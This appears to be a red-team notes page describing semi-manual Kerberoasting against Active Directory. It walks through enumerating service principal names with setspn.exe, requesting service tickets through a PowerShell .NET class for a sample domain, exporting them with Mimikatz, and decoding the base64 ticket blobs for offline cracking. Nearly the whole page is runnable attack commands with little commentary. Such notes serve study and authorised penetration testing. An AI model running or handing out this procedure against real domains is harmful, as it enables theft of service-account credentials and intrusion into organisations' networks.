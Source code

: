 ```yaml
---
description: >-
  Usually we would be doing kerberoasting with tools, but sometimes we don't
  have access to them, so this is more minimalistic approach.
---
```


# Semi-Manual Way

## <mark style="color:yellow;">**Enumerating SPNs with setspn.exe**</mark>

```powershell
C:\> setspn.exe -Q */*
```

## <mark style="color:yellow;">**Targeting a single user**</mark>

```powershell
PS C:\> Add-Type -AssemblyName System.IdentityModel

PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/NC.militech.local:1433"
```

## <mark style="color:yellow;">**Retrieve all tickets with setspn.exe**</mark>

```powershell
PS C:\> setspn.exe -T MILITECH.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

With this two commands we are:

1. Load necessary .NET classes (<mark style="color:blue;">`Add-Type`</mark>).
2. Create an object for Kerberos authentication (<mark style="color:blue;">`New-Object`</mark>).
3. The object requests a **TGS ticket** for the given service.
4. The ticket is stored **in memory** under that object.

## <mark style="color:yellow;">Extract Tickets with Mimikatz</mark>

```markup
mimikatz # base64 /out:true

mimikatz # kerberos::list /export  

// If we do not use base64 out true command, mimikatz will put tickets in .kirbi file.
```

#### Base64 Blob Processing

```bash
echo "<base64 blob>" | tr -d \\n | base64 -d > sqldev.kirbi
```

Then go to Hashcat section in main Kerberoasting section and crack it.&#x20;
